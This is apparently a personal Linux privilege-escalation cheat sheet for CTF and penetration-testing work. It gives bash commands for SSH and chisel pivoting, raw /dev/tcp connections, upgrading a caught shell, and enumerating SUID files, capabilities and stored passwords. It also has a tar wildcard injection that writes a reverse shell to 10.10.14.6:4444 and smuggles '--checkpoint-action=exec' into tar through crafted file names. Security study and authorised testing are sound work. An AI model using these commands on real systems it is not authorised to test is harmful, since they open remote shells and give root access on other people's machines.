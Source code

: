 - always check the `$PATH` value!
- some [check list](https://github.com/netbiosX/Checklists/blob/master/Linux-Privilege-Escalation.md)
- Siren's [notes](https://sirensecurity.io/blog/linux-privilege-escalation-resources/)
- restricted shell bypass [hacktricks](https://www.hackingarticles.in/multiple-methods-to-bypass-restricted-shell/) , [exploit-db](https://www.exploit-db.com/docs/english/44592-linux-restricted-shell-bypass-guide.pdf)
```bash
## General notes
# List systemd timers
systemctl list-timers
# port binding using ssh | localPort:socket:remotePort
ssh -L 4444:127.0.0.1:8080 soraka@172.17.0.2
# -- pivoting --
chisel server -p 3477 --socks5 --reverse
chisel client 10.10.10.10:3477 R:5000:socks
# file transfer using /dev/tcp
exec 3<>/dev/tcp/www.google.com/80
echo -e "GET / HTTP/1.1\r\nhost: http://www.google.com\r\nConnection: close\r\n\r\n" >&3
cat <&3
## 
exec 3<>/dev/tcp/$host/4444
cat <&3

```
##### upgrade shell
```bash
python3 -c "import pty; pty.spawn('/bin/bash')" || python -c "import pty; pty.spawn('/bin/bash')" || script -qc /bin/bash /dev/null
# Ctrl+Z
stty raw -echo;fg ; reset
stty columns 200 rows 200

```
- env variables
```bash

export TERM=linux
export TERM=xterm-256color
stty columns 156 rows 40
alias l='ls -lav --ignore=.?*'
alias la='ls -lav --color=auto'
alias ll='ls -lav --ignore=..'
alias ls='ls --color=auto'
alias ll='ls -lsaht --color=auto'
cd(){ pwd; builtin cd "$@"; pwd; ls -F; }
shopt -s autocd
function cd(){
    builtin cd "$@" && ls
}

export PATH="/usr/local/sbin:/usr/local/bin:/usr/bin:/bin:$PATH"

```

###### container enumerate
```bash
grep 'docker\|lxc' /proc/1/cgroup
mount  # show filesystem mount
df   # filesystem usage
```
##### manual enumeration
```bash
# network socket
ss -lntp # -n don't resolve service name
ss -ltp
# grep recursive 
grep -i -R password .
# find for files/folders owned by a user
find / -user soraka 2>/dev/null
# read secondary permissions
lsattr
# find suid/guid
find / -perm -4000 -type f ! -path "/dev/*" 2>/dev/null
find / -perm -2000 -type f ! -path "/dev/*" 2>/dev/null
find / -user root -perm -4000 -exec ls -la {} \; 2> dev/null
find / -perm /6000 2>/dev/null
# get caps
getcap -r / 2>/dev/null | head -n 50 
```
- uniqe exploitations
```bash
# tar wildcard
echo "bash -i >& /dev/tcp/10.10.14.6/4444 0>&1" > shell.sh
echo "" > "--checkpoint-action=exec=sh shell.sh"
echo "" > "--checkpoint=1"
```
ruby [priv esc](https://ihsansencan.github.io/privilege-escalation/linux/binaries/ruby.html)
##### kernels archives:
- [alpine](https://dl-cdn.alpinelinux.org/alpine/) linux archive
- [voidlinux](https://repo-default.voidlinux.org/live/) archive
- [nixos](https://releases.nixos.org/)


folders to check
```bash
/tmp/
/dev/shm/
/home/
/opt/
/etc/
/var/mail/
/var/www/
/


```
files to check
```bash
/etc/fstab
```